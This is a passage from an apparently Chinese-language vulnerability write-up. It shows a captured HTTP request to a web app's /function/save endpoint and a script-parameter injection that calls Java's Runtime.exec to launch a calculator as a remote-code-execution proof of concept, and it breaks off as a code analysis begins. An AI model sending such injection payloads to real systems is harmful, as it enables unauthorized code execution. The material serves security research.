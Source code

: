 抓包：

```bash
POST /function/save HTTP/1.1
Host: 10.151.220.236:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 93
Origin: http://10.151.220.236:8088
Connection: close
Referer: http://10.151.220.236:8088/function-edit.html
Cookie: JSESSIONID=43BED3B6A9E85CBF4C4754F334C36953; Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1706163744; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1706167658

id=&name=aaa&parameter=aaa&script=aaa
```

设置 script 参数为`}Java.type('java.lang.Runtime').getRuntime().exec('calc');{`

[![](assets/1706959434-2f78cdb80e2b96dc141f832e6049a8a7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125205205-8af63996-bb80-1.png)

触发 rce

## 漏洞分析

通过/function/save 找到对应的 controller：FunctionController
